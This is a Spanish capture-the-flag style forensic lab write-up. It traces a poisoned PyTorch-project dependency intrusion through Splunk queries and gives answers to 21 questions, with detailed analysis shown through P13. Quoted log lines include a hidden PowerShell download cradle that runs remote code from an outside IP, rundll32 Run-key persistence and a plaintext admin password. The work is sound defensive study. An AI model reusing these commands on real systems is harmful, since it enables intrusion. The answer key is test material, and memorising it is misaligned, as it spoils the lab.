# Poisoned PyTorch Lab

## 1. Contexto

**Escenario:** El 2 de febrero de 2026 (UTC), un desarrollador de unucorb ejecutó un script de entrenamiento de modelos desde Visual Studio Code en PC01 como parte de un proyecto interno de IA/ML. Sin que el usuario lo supiera, una dependencia confiable de Python de terceros dentro del proyecto había sido manipulada, lo que resultó en la ejecución silenciosa de código y el establecimiento de acceso remoto en la estación de trabajo.  
Su objetivo es analizar la telemetría SIEM proporcionada y los artefactos basados en el host para reconstruir la línea de tiempo de intrusión de extremo a extremo, determinar cómo se logró el acceso inicial, rastrear la actividad del atacante en todo el dominio e identificar el comportamiento previo al cifrado y el impacto del ransomware utilizado para maximizar el daño.

## 2. Preguntas del lab

### Resumen de preguntas y respuestas

| N.º | Pregunta | Respuesta | Técnica ATT&CK |
| --- | --- | --- | --- |
| P1 | ¿Desde qué directorio del proyecto de IA/ML se lanzó el script de entrenamiento? | torch-inference-stack | Ninguna |
| P2 | ¿Qué componente del language server de VS Code, con su versión, lanzó el download cradle? | jedilsp 3.12.9 | T1059.001, T1564.003, T1105 |
| P3 | ¿Cuál es la ruta completa del script que inició la cadena maliciosa? | C:\Users\michelvic\torch-inference-stack\training\train.py | T1195.001 |
| P4 | ¿A qué hora (UTC) se ejecutó el primer PowerShell malicioso? | 2026-02-02 01:17:01 | T1059.001, T1564.003, T1105 |
| P5 | ¿Qué IP remota se contactó para descargar la primera etapa? | 54.93.78.216 | T1105, T1071.001 |
| P6 | ¿Qué binario nativo se usó para enumerar las confianzas de dominio? | nltest.exe | T1482 |
| P7 | ¿Cómo se llama la DLL de persistencia? | updlate.dll | T1218.011, T1036.005 |
| P8 | ¿En qué ruta completa se guardó la DLL? | C:\Users\michelvic\AppData\Roaming\updlate.dll | T1105 |
| P9 | ¿Cuál es el SHA256 de la DLL? | 0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0 | Ninguna |
| P10 | ¿Qué nombre de valor del registro se usó para la persistencia? | Updater | T1547.001, T1036 |
| P11 | ¿Qué función de Windows se intentó usar para escalar privilegios? | wsl | T1007, T1027.010 |
| P12 | ¿Qué fichero de configuración tenía credenciales de administrador en texto plano? | Unattend.xml | T1083, T1552.001, T1053.005 |
| P13 | ¿Qué tipo de conexión se usó para el primer movimiento lateral al DC? | rdp | T1021.001, T1078.002 |
| P14 | ¿Cómo se llama la cuenta de dominio creada por el atacante? | welsam | T1136.002, T1036 |
| P15 | ¿A qué grupo privilegiado se añadió esa cuenta? | Domain Admins | T1098.007 |
| P16 | ¿A qué hora (UTC) empezó la sesión RDP en FILE-SERVER-01? | 2026-02-02 04:17:07 | T1021.001, T1078.002 |
| P17 | ¿Qué ruta URI se pidió para la segunda etapa en FILE-SERVER-01? | /b | T1059.001, T1564.003, T1105 |
| P18 | ¿Qué utilidad de Windows se usó para borrar las Volume Shadow Copies? | vssadmin.exe | T1490 |
| P19 | ¿Cuál es la ruta completa del binario de ransomware? | C:\Users\domain.admin\Documents\system recovery.exe | T1486, T1036 |
| P20 | ¿Cuál es el SHA256 del binario de ransomware? | EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC | T1105, T1486 |
| P21 | ¿A qué familia de ransomware pertenece la muestra? | Lynx | T1486 |

### Análisis pregunta a pregunta

#### P1

> **Pregunta:** La telemetría de ejecución de procesos en PC01 muestra a un desarrollador ejecutando un script de entrenamiento de Python desde Visual Studio Code poco antes de que comience la actividad maliciosa; ¿Cuál es el nombre del directorio del proyecto AI/ML desde el que se originó esta ejecución?

> **Respuesta:** torch-inference-stack

**Análisis: cómo he llegado**

- **Qué busco:** la ejecución del script de entrenamiento de Python (Sysmon Event ID 1, *Process Create*) y la carpeta del proyecto desde la que se lanzó.

**Pasos previos**

Paso 1: inventario de índices y sourcetypes, para saber qué datos hay y de qué fechas.

```spl
| tstats count min(_time) as primero max(_time) as ultimo where index=* by index, sourcetype
| convert ctime(primero) ctime(ultimo)
| sort - count
```

Resultado del paso 1: los logs de Windows están en `main` y los de red en `suricata`. Hay Sysmon. La actividad relevante va del 31/01/2026 al 02/02/2026.

Paso 2: nombres de los campos de Sysmon.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| fieldsummary
| table field count distinct_count
| sort - count
```

Resultado del paso 2: existen `EventCode`, `Image`, `ParentImage`, `CommandLine` y `CurrentDirectory`. Filtrando por `sourcetype="XmlWinEventLog:..."` salen 0 resultados porque el add-on de Windows renombra el sourcetype en búsqueda; hay que filtrar por `source`.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="1" Image="*Python*"
| table _time ParentImage, Image, CommandLine CurrentDirectory
```

- **Resultado:**



A las 2026-02-02 01:17:00 se ejecuta `python.exe c:/Users/michelvic/torch-inference-stack/training/train.py`, con `CurrentDirectory` `C:\Users\michelvic\torch-inference-stack\`. El `ParentImage` sale como `-` (Sysmon no resolvió el padre).

- **Por qué esa es la respuesta:** es el único Python que ejecuta un script de entrenamiento (`train.py`). La ruta del script y la carpeta de trabajo apuntan al mismo proyecto. Los Python lanzados directamente por `Code.exe` son herramientas de la extensión de VS Code (language server jedi y `pet.exe`), no el script. Filtrar por `ParentImage="*Code.exe"` dejaba fuera la ejecución buena.
- **Técnica ATT&CK:** ninguna.

#### P2

> **Pregunta:** Durante el análisis de la cadena de procesos sospechosos, los investigadores identificaron un componente del servidor de lenguaje Python de Visual Studio Code que se ejecutaba inmediatamente antes de la base de descarga oculta de PowerShell; ¿Cuál era el nombre y la versión del componente que se mostraba en la cadena de ejecución?

> **Respuesta:** jedilsp 3.12.9

**Análisis: cómo he llegado**

- **Qué busco:** el PowerShell oculto que descarga código (download cradle) y, en su proceso padre, el componente del language server de VS Code que lo lanzó.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image="*powershell.exe"
CommandLine IN ("*hidden*", "*DownloadString*", "*Invoke-WebRequest*", "*iwr *", "*IEX*")
| table _time ParentImage ParentCommandLine Image CommandLine
| sort _time
```

- **Resultado:** 

	a las 2026-02-02 01:18:10, `python.exe` ejecutando `c:\Users\michelvic\.vscode\extensions\ms-python.python-2026.0.0-win32-x64\python_files\lib\jedilsp\jedi\inference\compiled\subprocess\__main__.py c:\...\jedilsp 3.12.9` lanza `powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((new-object net.webclient).downloadstring('http://54.93.78.216:80/a'))"`. A las 01:17:01 el mismo cradle lo lanza el Python que ejecuta `train.py`.
- **Por qué esa es la respuesta:** el padre del cradle es el subproceso de Jedi (`jedilsp`), que recibe como argumento `3.12.9`. Jedi importa las librerías del proyecto para analizarlas, y al importar la dependencia manipulada se ejecuta su código. Descartado como ruido: `Activation.cmd`, `Ec2Launch`/`Set-Wallpaper` (AWS), instalador de Npcap e instalador de VS Code.
- **Técnica ATT&CK:** T1059.001 (*PowerShell*), T1564.003 (*Hidden Window*), T1105 (*Ingress Tool Transfer*).

#### P3

> **Pregunta:** Para confirmar el origen de la intrusión, se revisaron los registros de ejecución para identificar el script responsable de iniciar la cadena maliciosa de eventos; ¿cuál es la ruta completa del archivo de ese script en PC01?

> **Respuesta:** C:\Users\michelvic\torch-inference-stack\training\train.py

**Análisis: cómo he llegado**

- **Qué busco:** el primer eslabón de la cadena maliciosa: el script que ejecutaba el proceso padre del primer download cradle.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image="*powershell.exe"
CommandLine IN ("*hidden*", "*DownloadString*", "*Invoke-WebRequest*", "*iwr *", "*IEX*")
| table _time ParentImage ParentCommandLine Image CommandLine
| sort _time
```

- **Resultado:**



A las 2026-02-02 01:17:01, el `python.exe` que ejecuta `c:/Users/michelvic/torch-inference-stack/training/train.py` lanza el primer PowerShell oculto con el cradle hacia `http://54.93.78.216:80/a`. El segundo cradle (01:18:10) lo lanza el subproceso de jedilsp, un minuto después.

- **Por qué esa es la respuesta:** es el cradle más temprano y su padre ejecuta `train.py`, así que ese script inicia la cadena. El código malicioso no está en `train.py` sino en la dependencia que importa, pero Sysmon ID 1 solo registra el script que ejecuta Python, no las librerías que carga. En el log la ruta sale con `/`; la plataforma la pide en formato Windows (`C:\...\`).
- **Técnica ATT&CK:** T1195.001 (*Compromise Software Dependencies and Development Tools*)

#### P4

> **Pregunta:** Inmediatamente después de ejecutar el script de entrenamiento, un proceso oculto de PowerShell lanzó una base de descarga remota; ¿en qué momento exacto (UTC) se ejecutó este comando malicioso inicial de PowerShell en PC01?

> **Respuesta:** 2026-02-02 01:17:01

**Análisis: cómo he llegado**

- **Qué busco:** la hora exacta en UTC del primer PowerShell oculto con el download cradle, el que lanza el Python de `train.py`.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image="*powershell.exe"
CommandLine="*54.93.78.216*"
| table _time UtcTime ParentCommandLine CommandLine
| sort _time
```

- **Resultado:**



Tres PowerShell ocultos contactan con `54.93.78.216`: 01:17:01.417 (padre `train.py`, ruta `/a`), 01:18:10.044 (padre jedilsp, ruta `/a`) y 04:37:54.202 (sin padre conocido, ruta `/b`).

- **Por qué esa es la respuesta:** el cradle inicial es el de padre `train.py`. Su `UtcTime` (campo de Sysmon, siempre en UTC) es 2026-02-02 01:17:01.417 y coincide con `_time`, así que Splunk muestra las horas en UTC. La plataforma pide el formato `AAAA-MM-DD HH:MM:SS`, sin milisegundos.
- **Técnica ATT&CK:** T1059.001 (*PowerShell*), T1564.003 (*Hidden Window*), T1105 (*Ingress Tool Transfer*).

#### P5

> **Pregunta:** La telemetría de red registró la comunicación saliente desde PC01 después de la base de descarga de PowerShell; ¿Qué dirección IP remota se contactó para recuperar la carga útil de la primera etapa?

> **Respuesta:** 54.93.78.216

**Análisis: cómo he llegado**

- **Qué busco:** las conexiones de red que hace PowerShell (Sysmon Event ID 3), para confirmar a qué IP se conectó después del cradle.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 Image="*powershell.exe"
| stats count min(_time) as primera by DestinationIp DestinationPort
| convert ctime(primera)
| sort primera
```

- **Resultado:**



54.93.78.216:80, 13 572 conexiones. La primera, el 02/02/2026 a las 01:17:06.

- **Por qué esa es la respuesta:** la primera conexión es 5 segundos después del cradle (01:17:01), va al puerto 80 como la URL del comando y la hace PowerShell. Con tantas conexiones, parece que siguió comunicándose con ese servidor después de la descarga (posible C2). 
- **Técnica ATT&CK:** T1105 (*Ingress Tool Transfer*), T1071.001 (*Application Layer Protocol: Web Protocols*).

#### P6

> **Pregunta:** Después del acceso inicial, el atacante realizó un reconocimiento para comprender las relaciones de confianza del dominio desde PC01; ¿Qué binario nativo de Windows se utilizó para enumerar los fideicomisos de dominio?

> **Respuesta:** nltest.exe

**Análisis: cómo he llegado**

- **Qué busco:** procesos con `trust` en la línea de comandos lanzados después del acceso inicial. Pongo el rango de tiempo desde el 02/02/2026 a las 01:17:00.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*trust*"
| table _time ParentImage Image CommandLine
| sort _time
```

- **Resultado:**



01:43:47 `nltest.exe /domain_trusts` y 01:43:59 `nltest.exe /domain_trusts /all_trusts`, los dos lanzados desde PowerShell.

- **Por qué esa es la respuesta:** sin acotar el tiempo salían 219 resultados, casi todo legítimo. Desde el acceso inicial solo quedan dos ejecuciones de nltest.exe, desde el PowerShell del atacante. Primero saca las confianzas directas y luego todas, también las indirectas.
- **Técnica ATT&CK:** T1482 (*Domain Trust Discovery*).

#### P7

> **Pregunta:** Para mantener la persistencia en la estación de trabajo comprometida, se implementó una carga útil secundaria para la persistencia; ¿Cuál es el nombre de archivo de la DLL persistente soltado en PC01?

> **Respuesta:** updlate.dll

**Análisis: cómo he llegado**

- **Qué busco:** la DLL que el atacante soltó en disco después del acceso inicial.

**Pasos previos**

Paso 1: busco ficheros .dll creados después del acceso inicial (Sysmon Event ID 11).

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 TargetFilename="*.dll" earliest="02/02/2026:01:17:00"
| table _time Image TargetFilename
| sort _time
```

Resultado del paso 1: solo salen DLLs de Windows Update y de apps de la Store, creadas por svchost.exe y wuauclt.exe. La DLL del atacante no aparece al crearse, así que la busco cuando se ejecuta.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*dll*" earliest="02/02/2026:01:17:00"
| table _time ParentImage Image CommandLine
| sort _time
```

- **Resultado:**



01:47:33 `powershell.exe` lanza `cmd.exe /C rundll32.exe C:\Users\michelvic\AppData\Roaming\updlate.dll, StartW`, y a las 01:47:34 se ejecuta el `rundll32.exe` con esa DLL.

- **Por qué esa es la respuesta:** la lanza el PowerShell del atacante, está en AppData\Roaming del usuario y no en System32, y el nombre imita a "update" con una letra de más. El resto de resultados son procesos de Windows, Chocolatey e Internet Explorer.
- **Técnica ATT&CK:** T1218.011 (*System Binary Proxy Execution: Rundll32*), T1036.005 (*Masquerading: Match Legitimate Name or Location*).

#### P8

> **Pregunta:** El análisis de la actividad de creación de archivos muestra que la carga útil persistente se almacenó en un directorio escribible por el usuario del que comúnmente abusa el malware; ¿cuál es la ruta completa del archivo donde se colocó esta DLL?

> **Respuesta:** C:\Users\michelvic\AppData\Roaming\updlate.dll

**Análisis: cómo he llegado**

- **Qué busco:** el evento de creación de la DLL en disco.

**Pasos previos**

Paso 1: busco la DLL por nombre en la creación de ficheros (Sysmon Event ID 11).

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 TargetFilename="*updlate*"
| table _time Image TargetFilename
| sort _time
```

Resultado del paso 1: no sale nada.

Paso 2: busco el nombre como texto libre en todo el índice para ver en qué fuentes y eventos aparece.

```spl
index=main "updlate"
| stats count by source EventCode
```

Resultado del paso 2: aparece en Sysmon 1, 7, 13 y 29, en PowerShell (4103, 4104, 800) y en Windows Defender (1116, 1117). La creación del fichero está en el Event ID 29 (File Executable Detected), no en el 11.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=29 TargetFilename="*updlate*"
| table _time Image TargetFilename Hashes
| sort _time
```

- **Resultado:**



A las 01:47:22 `powershell.exe` escribe `C:\Users\michelvic\AppData\Roaming\updlate.dll`. SHA256: 0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0.

- **Por qué esa es la respuesta:** es el evento de creación de la DLL y el TargetFilename da la ruta completa. La escribe el PowerShell del atacante 12 segundos antes de ejecutarla con rundll32 (01:47:34). AppData\Roaming es del usuario, se puede escribir sin ser administrador y está oculta por defecto.
- **Técnica ATT&CK:** T1105 (*Ingress Tool Transfer*)

#### P9

> **Pregunta:** ¿Cuál es el hash SHA-256 de la DLL persistente en PC01?

> **Respuesta:** 0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0

**Análisis: cómo he llegado**

- **Qué busco:** el SHA256 de updlate.dll en el evento de creación del fichero (Sysmon Event ID 29), que guarda los hashes.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=29 TargetFilename="*updlate*"
| table _time Image TargetFilename Hashes
| sort _time
```

- **Resultado:**



- **Por qué esa es la respuesta:** es el valor de SHA256 del evento de creación de updlate.dll en C:\Users\michelvic\AppData\Roaming\. Me quedo solo con el valor, sin el "SHA256=".
- **Técnica ATT&CK:** ninguna.

#### P10

> **Pregunta:** La revisión de la modificación del registro revela el uso de un nombre de valor de aspecto benigno destinado a integrarse con software legítimo; ¿Qué nombre de valor de registro se utilizó para persistir la carga útil?

> **Respuesta:** Updater

**Análisis: cómo he llegado**

- **Qué busco:** el cambio en el registro (Sysmon Event ID 13) cuyo dato ejecuta updlate.dll, y el nombre del valor al final de TargetObject.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=13 updlate
| table _time Image TargetObject Details
| sort _time
```

- **Resultado:**



A las 01:48:39 `powershell.exe` escribe en `HKU\S-1-5-21-3415631042-2785832853-3881933999-1167\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Updater` el dato `rundll32.exe "C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW`.

- **Por qué esa es la respuesta:** el nombre del valor es el último trozo de TargetObject. Está en la clave Run del usuario, que se ejecuta en cada inicio de sesión y no necesita ser administrador. "Updater" se parece a los valores que dejan los programas legítimos para buscar actualizaciones. Lo escribe el PowerShell del atacante un minuto después de probar la DLL.
- **Técnica ATT&CK:** T1547.001 (*Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder*), T1036 (*Masquerading*).

#### P11

> **Pregunta:** Antes de escalar privilegios con éxito, el atacante intentó abusar de una función instalada de Windows que finalmente falló; ¿Qué función de Windows fue atacada durante este intento de escalada de privilegios?

> **Respuesta:** wsl

**Análisis: cómo he llegado**

- **Qué busco:** lo que lanzó el PowerShell del atacante después de la persistencia, para ver qué intentó para escalar privilegios.

- **Consulta o comando:**

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 ParentImage="*powershell.exe" earliest="02/02/2026:01:17:00"
| table _time Image CommandLine
| sort _time
```

Los comandos van en -EncodedCommand. Los decodifico en CyberChef con From Base64 + Decode text (UTF-16LE).

- **Resultado:**

01:52:24 `Get-Service`
01:53:02 `Get-Service | Where-Object {$_.Status -eq "Running"}`
01:53:39 `Get-Service -Name wsl`
01:54:18 `Get-CimInstance Win32_Service | Select-Object Name, State, StartMode, PathName`

- **Por qué esa es la respuesta:** después de fijar la persistencia, el atacante revisa los servicios del equipo y solo pregunta por uno con nombre: wsl (Windows Subsystem for Linux). En el equipo hay procesos de Ubuntu dentro de WSL. Luego lista los servicios con su ruta y modo de arranque, buscando otra forma de escalar.
- **Técnica ATT&CK:** T1007 (*System Service Discovery*), T1027.010 (*Obfuscated Files or Information: Command Obfuscation*). Intento de escalada (TA0004) a través de WSL.

#### P12

> **Pregunta:** Después del fallido intento de escalada de privilegios, las búsquedas en el sistema de archivos revelaron un artefacto de implementación que contenía credenciales expuestas; ¿Cuál es el nombre del archivo de configuración que contenía credenciales de administrador en texto sin formato?

> **Respuesta:** Unattend.xml

**Análisis: cómo he llegado**

- **Qué busco:** qué fichero de configuración encontró el atacante con la contraseña del administrador, entre el fallo con WSL (01:54) y la actividad como domain.admin.

**Pasos previos**

Paso 1: busco en el código de PowerShell (4104) comandos de búsqueda de ficheros o la palabra password.

```spl
index=main source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104 earliest="02/02/2026:01:54:00" latest="02/02/2026:03:01:00"
ScriptBlockText IN ("*Get-ChildItem*", "*-Recurse*", "*Select-String*", "*password*")
| table _time ScriptBlockText
| sort _time
```

Resultado del paso 1: casi todo es código interno del módulo de tareas programadas. A las 02:14:03 aparece `Register-ScheduledTask -TaskName "Chroom Updates" -User "DOMAIN\domain.admin" -Password "aduserad@26" -RunLevel Highest`. Ya tiene la contraseña a las 02:14, así que el fichero lo encontró antes.

Paso 2: miro todo el PowerShell entre 01:54 y 02:14:03, quitando el código del módulo.

```spl
index=main source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104 earliest="02/02/2026:01:54:00" latest="02/02/2026:02:14:03"
NOT ScriptBlockText="*cmdletization*"
| table _time ScriptBlockText
| sort _time
```

Resultado del paso 2: a las 02:02:42 comprueba cinco rutas de ficheros de despliegue (unattend.xml, Panther\Unattend.xml, Panther\Unattend\Unattend.xml, sysprep.inf, sysprep.xml) con Test-Path y saca con Get-Item las que existen. El 4104 no dice cuál existía.

- **Consulta o comando:**

```spl
index=main source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4103 earliest="02/02/2026:02:02:40" latest="02/02/2026:02:02:50"
| table _time _raw
| sort _time
```

- **Resultado:** en el campo Payload, Test-Path y Where-Object reciben las cinco rutas, pero ForEach-Object, Get-Item y Out-Default solo reciben `C:\Windows\Panther\Unattend.xml`.

- **Por qué esa es la respuesta:** es la única ruta que pasa el filtro de Test-Path, así que es el único fichero que existía y el que abrió el atacante. Once minutos después crea una tarea programada con la contraseña de domain.admin.
- **Técnica ATT&CK:** T1083 (*File and Directory Discovery*), T1552.001 (*Unsecured Credentials: Credentials In Files*). La tarea programada "Chroom Updates" que crea después con esas credenciales es T1053.005 (*Scheduled Task/Job: Scheduled Task*).

#### P13

> **Pregunta:** Utilizando las credenciales recuperadas, se observó actividad de movimiento lateral desde PC01 hasta el controlador de dominio; ¿qué tipo de conexión se utilizó para establecer esta conexión inicial?

> **Respuesta:** rdp

**Análisis: cómo he llegado**

- **Qué busco:** los inicios de sesión correctos (Event ID 4624) de domain.admin después de que el atacante usara su contraseña, y el LogonType del primero en el controlador de dominio.

- **Consulta o comando:**

```spl
index=main EventCode=4624 TargetUserName="domain.admin" earliest="02/02/2026:02:14:00"
| table _time Computer TargetUserName IpAddress LogonType
| sort _time
```

- **Resultado:**



La primera sesión en DC01 es a las 03:01:05 desde 10.10.6.81: LogonType 3, 3 y en 4 segundos 10, 10. El mismo patrón se repite a las 03:12, 03:20 y 04:16.

- **Por qué esa es la respuesta:** el LogonType 10 es RemoteInteractive, es decir, escritorio remoto.
